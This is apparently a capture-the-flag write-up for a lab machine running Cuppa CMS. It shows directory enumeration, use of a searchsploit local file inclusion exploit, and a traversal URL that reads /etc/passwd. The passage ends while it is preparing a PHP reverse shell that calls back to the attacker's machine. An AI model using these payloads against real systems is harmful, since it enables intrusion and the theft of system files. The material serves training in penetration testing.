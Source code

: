 Using Feroxbuster we found /administrator:

```shell
feroxbuster -u http://10.10.232.106/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt
```

Lets access it:

```shell
http://10.10.232.106/45kra24zxs28v3yd/administrator
```

It seems like a login portal. We can notice that its using Cuppa CMS.

Using searchsploit to find an exploit for Cuppa CMS we found the following:

```shell
searchsploit cuppa
```

```shell
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                   | php/webapps/25971.txt
---------------------------------------------------------------------------------- ---------------------------------
```

Lets get it:

```shell
searchsploit -m 25971
```

Reading the exploit, we can know more about how this exploit works.

We can try reading the contents of /etc/passwd abusing the LFI vulnerability if we visit the following link:

```shell
http://10.10.232.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

It worked! We were able to read the contents of /etc/passwd.

We can abuse this further using a reverse shell to get access.

Create a php reverse shell first. I will use the PHP Pentestmonkey php-reverse-shell with our Kali IP and default port 1234 from our nc listener. We will copy it inside a file called shell.php:

```shell
# Locate shell on Kali
locate php-reverse-shell.php

# Copy shell to current directory
cp /usr/share/webshells/php/php-reverse-shell.php .

# Open shell file and edit the IP to the IP of our Kali tun0
sudo gedit php-reverse-shell.php
```
